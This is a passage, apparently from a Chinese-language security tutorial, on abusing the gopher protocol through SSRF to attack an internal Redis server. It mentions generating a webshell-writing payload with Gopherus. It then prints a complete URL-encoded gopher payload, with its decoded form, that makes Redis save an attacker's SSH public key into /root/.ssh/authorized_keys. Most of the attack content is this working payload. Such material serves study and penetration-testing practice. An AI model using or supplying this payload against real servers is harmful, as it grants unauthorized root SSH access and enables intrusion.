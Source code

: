 



### 8. Gopher Redis 绝对路径写shell 

使用Gopherus生成payload即可。



### 9. Gopher Redis 写入 .ssh私钥

此处利用ssh生成一对公私钥，生成的默认文件为id_rsa.pub和id_rsa。把id_rsa.pub上传至服务器即可。我们利用redis把目录设置为ssh目录下：

根据网上写密钥有两种协议可以使用，一种是dict，一种是gopher。测试使用dict协议写不成功，写入后不能连接，此处使用gopher写密钥。

使用的payload为：

```php
gopher://127.0.0.1:6379/_*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$401%0d%0a%0a%0a%0assh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC/Xn7uoTwU+RX1gYTBrmZlNwU2KUBICuxflTtFwfbZM3wAy/FmZmtpCf2UvZFb/MfC1i......2pyARF0YjMmjMevpQwjeN3DD3cw/bO4XMJC7KnUGil4ptcxmgTsz0UsdXAd9J2UdwPfmoM9%0a%0a%0a%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$11%0d%0a/root/.ssh/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$15%0d%0aauthorized_keys%0d%0a*1%0d%0a$4%0d%0asave%0d%0a*1%0d%0a$4%0d%0aquit%0d%0a
```

payload 解码为：

```sh
gopher://127.0.0.1:6379/_*3
$3
set
$1
1
$401



ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC/Xn7uoTwU RX1gYTBrmZlNwU2KUBICuxflTtFwfbZM3wAy/FmZmtpCf2UvZFb/MfC1i......2pyARF0YjMmjMevpQwjeN3DD3cw/bO4XMJC7KnUGil4ptcxmgTsz0UsdXAd9J2UdwPfmoM9




*4
$6
config
$3
set
$3
dir
$11
/root/.ssh/
*4
$6
config
$3
set
$10
dbfilename
$15
authorized_keys
*1
$4
save
*1
$4
quit
```